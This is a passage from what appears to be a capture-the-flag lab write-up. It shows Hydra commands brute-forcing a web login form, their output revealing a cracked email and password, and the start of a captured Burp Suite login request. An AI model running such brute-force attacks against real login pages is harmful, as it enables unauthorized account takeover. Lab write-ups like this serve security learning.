 ```bash
:~/Intranet# sed -i 's/[^a-zA-Z0-9]//g' B.txt
```

<h2 align="center">Hydra</h2>

<p>

- <code>anders@securesolacoders.no</code> : <code>securesolarcoders2022</code></p>

```bash
(rosana) :~/Intranet# hydra -L users.txt -P B.txt -s 8080 xx.xxx.x.xxx http-post-form "/login:username=^USER^&password=^PASS^:Error:" -t 50
...
[DATA] max 50 tasks per 1 server, overall 50 tasks, 108588 login tries (l:1/p:108588), ~2172 tries per task
[DATA] attacking http-post-form://xx.xxx.x.xxx:8080/login:username=^USER^&password=^PASS^:Error:
[8080][http-post-form] host: xx.xxx.x.xxx  login: anders@securesolacoders.no   password: securesolarcoders2022
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-28 xx:xx:xx
```

```bash
(rosana) :~/Intranet# hydra -l anders@securesolacoders.no -P B.txt -s 8080 xx.xxx.x.xxx http-post-form "/login:username=^USER^&password=^PASS^:Error:"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-01 16:42:45
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 70539 login tries (l:1/p:70539), ~4409 tries per task
[DATA] attacking http-post-form://10.201.0.156:8080/login:username=^USER^&password=^PASS^:Error:
[8080][http-post-form] host: 10.201.0.156   login: anders@securesolacoders.no   password: securesolacoders2022
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-01 16:43:08
```

<h2 align="center">Login</h2>
<p>
  
- Launched Burp Suite<br>
- Enabled Foxy Proxy</p>

<img width="1268" height="490" alt="image" src="https://github.com/user-attachments/assets/910b075d-a69a-44ec-abe3-c27ba51323ab" />

<br>
<br>
<h6>Request</h6>

```bash
POST /login HTTP/1.1
Host: intranet.thm:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: http://intranet.thm:8080
Connection: keep-alive
Referer: http://intranet.thm:8080/login
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```